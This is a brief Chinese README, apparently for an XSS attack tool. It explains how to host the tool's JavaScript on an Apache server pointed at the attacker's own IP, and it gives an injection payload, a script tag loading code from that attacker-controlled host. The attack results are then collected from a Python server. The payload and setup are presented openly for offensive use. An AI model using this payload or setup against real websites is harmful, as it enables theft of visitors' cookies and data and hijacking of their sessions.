 ## XSS工具用法
将js下的文件夹保存到apache的目录下，然后修改其中js文件的ip地址为你的实际ip地址。
同时你的payload为：
```js
<script src="http://{你的ip地址}:{你的apache端口，一般为80可以不填写}/N"></script>
```
然后直接访问你的python服务器即可获取XSS攻击结果。
原理可以在这看到：https://www.cnblogs.com/9man/p/18292753
